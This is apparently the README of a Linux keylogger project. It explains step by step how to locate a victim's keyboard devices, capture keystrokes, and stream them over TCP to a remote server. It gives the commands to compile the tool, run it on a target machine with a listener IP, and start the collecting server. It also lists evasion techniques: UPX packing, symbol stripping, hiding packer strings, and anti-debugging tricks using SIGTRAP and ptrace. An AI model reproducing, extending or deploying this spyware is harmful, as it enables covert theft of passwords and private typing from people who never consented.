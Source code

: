 # 4 k3yl0gg3r f0r r341 h4x0r5 !!1

![Diagram](./.github/diagram_keylogger.png)

## How can I write one of my own ?

There is many steps to do a project of the sort. First, you will need to find
the victim's keyboard of course ! For this, I invite you to check on your Linux
install the directory `/dev/input/by-path/` and you should see a symlink ending
with `kbd`. That's your keyboard. You can see that it points to an event in the
parent directory. You should be able to find this event using the `readlink()`
function. You can read my code in `logger/sources/get_keyboard.c` to check how
I did it. :)

You can also take into account that there might be multiple keyboards, because
the victim has a USB keyboard plugged in, for instance. To circonvent that, I
chose to store every file descriptor matching the description of a keyboard,
and use the `select` syscall to find one when I can read on one of them.
I invite you to read the `man` page of `select` for more information about this.

Once you have found the keyboard(s), and opened it (or them), you will to store
your logs somewhere, right ? For tests purposes, I just added the IP of a cheap
VPS in a `#define`, and set up the server part there. For the socket creation,
I used the TCP Protocol, and just used `connect` to connect to my distant server.
I did not do anything else, as I have not implemented any Remote-Access
functionnality, and it just sends data forever. I also set up a log file, in
`/tmp/` for testing purposes.

Now, let's go over the fun part: the logger in itself ! You will need to get a
`char` array containing all the keys that can be typed. It is defined in
`/usr/include/linux/input.h` on my machine, but it can be different for you.
Next, you will use `select` to check when you can read new keys, or just call
`read` until the return value is -1, if you only have one keyboard.

At this point, you have your basic keylogger, it is absolutely not obfuscated,
does not handle SHIFT keys, but this is a good base. Here are a few ideas of
things I implemented, or want to implement:

### Obfuscation

- using fancy gcc flags such a `-s -static` to remove some symbols.
- using the UPX packer to compress your binary and remove unecessary section
headers (you will need to compile with `-static`)
- implementing a `sigaction` that renders `SIGTRAP` useless, so that debuggers
 like GDB do not work
- check if `ptrace` is currently called on your program, to disable debuggers
 like GDB
- create a simple program that will remove the strings from the compressed
binary indicating it has been packed with UPX

### Features

- support non-QWERTY keyboard layouts
- set up a wrapper around the time where you write logs, by nullifying `SIGPIPE`
when writing, so that it won't abruptly fail
- support SHIFT keys
- daemonize the program (see `./logger/sources/main.c`)
- basic XOR encryption (upgrade to SSL if possible)

## How do I use the keylogger ?

to compile, just launch the `compile_logger.sh` script like so:

```sh
# installing UPX packer for Ubuntu
sudo apt install -y upx && sh compile_logger.sh
```

To launch the keylogger, you will need access to the target machine,
and from there, start the program. You will have to pass the listener's IP like so:

```sh
./k3yl0gg3r ${SERVER_IP}
```

## Server

```sh
pip install -r requirements.txt && python3 ./server/TCP_handler.py
```

Output will be stored in `.logkeys.csv`
